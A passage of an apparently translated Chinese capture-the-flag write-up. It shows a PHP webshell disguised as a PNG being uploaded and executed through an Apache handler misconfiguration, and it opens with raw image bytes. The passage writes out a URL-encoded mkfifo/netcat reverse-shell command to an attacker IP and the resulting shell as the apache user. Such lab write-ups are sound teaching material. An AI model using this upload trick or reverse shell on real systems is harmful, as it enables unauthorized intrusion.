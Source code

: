     <A3>/<D4>+ܡ<A7>z<D5>ONESC<D3>S<CF>^C<FD><A0>^<E1>^N=<D5>+<82>қz<EA>y<A0>^_<D4>+ܡ<A7>z<D5>ONESC<D3>S<CF>^C<FD><A0>^<E1>^N=<D5>+ESC<86><81><D5>w^@<80>&^L==<D6>^A^@<FE>mD$^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA      ^@<D0>^L<82>^R^@<A0>^Y^D%^@@3<FE>^C^Yb^Pi쏒<BB>^@^@^@^@IEND<AE>B`<82>
    

我可以在它上运行，以确保它仍然与PNG的哑剧类型匹配：`file`

    root@kali# file shell.png 
    shell.php.png: PNG image data, 421 x 210, 8-bit/color RGBA, non-interlaced
    

### 上传网页外壳

我可以将我的文件上传为 .但是在访问它时，我只是得到了一个破碎的图像：`shell.png`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1566725870104.png) 

这是因为服务器未配置为使用php解释器处理文件。我花了很长时间在上传php源代码中寻找逻辑错误，这些错误可以让我在网络上获得一些命名的东西。然后我尝试了一些我知道不起作用的东西，它做到了：上传为.当我这样做时，它在图库中显示为已损坏：`.png``shell.php``shell.php.png`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1566725986450.png) 

当我查看时，我看到图像的字符串和php在中间执行：`/uploads/10_10_14_5.php.png`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1566726099763.png) 

我最后补充一点：`?cmd=id`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2F1566726130362.png) 

### 什么？为什么？

在这一点上，我非常困惑。事实证明，这是Web服务器如何决定以代码形式执行的内容而不是返回静态文件或图像的配置错误。详情[请见此处](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler)。标准情况是 php 将只处理以 结尾的文件。这里的配置错误意味着，只要在名称中的某个地方，它就会作为php进行处理。我将在“超越根”中进一步研究配置。`.php``.php`

### 壳

为了获得真正的贝壳，我刚刚访问了：`/uploads/10_10_14_5.php.png?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E&1|nc%2010.10.14.7%20443%20%3E/tmp/f`

    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.146.
    Ncat: Connection from 10.10.10.146:53204.
    sh: no job control in this shell
    sh-4.2$ id
    uid=48(apache) gid=48(apache) groups=48(apache)
    

## 对古利的隐秘

